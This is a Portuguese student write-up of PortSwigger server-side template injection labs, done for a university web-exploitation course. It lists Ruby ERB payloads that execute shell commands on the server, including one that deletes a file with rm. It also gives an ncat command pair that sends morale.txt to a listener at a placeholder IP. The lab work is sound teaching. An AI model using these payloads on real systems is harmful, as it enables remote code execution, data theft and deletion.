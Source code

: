 # FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado
<img src="imagens/Imagem1.png">

# Exercício 0x01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

## 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.

<img src="imagens/Imagem2.png">

## 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.

<img src="imagens/Imagem3.png">

## 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```

<img src="imagens/Imagem4.png">

## 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
__R: morale.txt é um arquivo openssl enc'd data with salted password__

## 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

__R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:__

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP PORT < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

### Prints

- md5sum
  <img src="imagens/Imagem4.png">
- file
  <img src="imagens/Imagem5.png">
- ls
  <img src="imagens/Imagem6.png">

## 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

Comando Utilizado: 

```
<%= system(' rm morale.txt ') %>
```

<img src="imagens/Imagem7.png">

## 07 - Em qual linguagem o sistema de template está sendo executado?

__R: Ele foi escrito em RUBY__

<img src="imagens/Imagem8.png">

# Exercício 0x02 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context 

## 01 - Uma captura de tela completa (exibindo o endereço do seu laboratório) com um comentário anônimo contendo seu primeiro nome e RM.

<img src="imagens/Imagem9.png">

## 02 - Uma captura de tela completa (exibindo o endereço do seu laboratório e seu payload) com prova de que você consegue realizar operações simples, tais como: somar ou multiplicar dois números ou multiplicar uma string.



## 03 - Em qual linguagem o sistema de template está sendo executado?

## 04 - Forneça evidência de que conseguiu completar o objetivo deste laboratório.

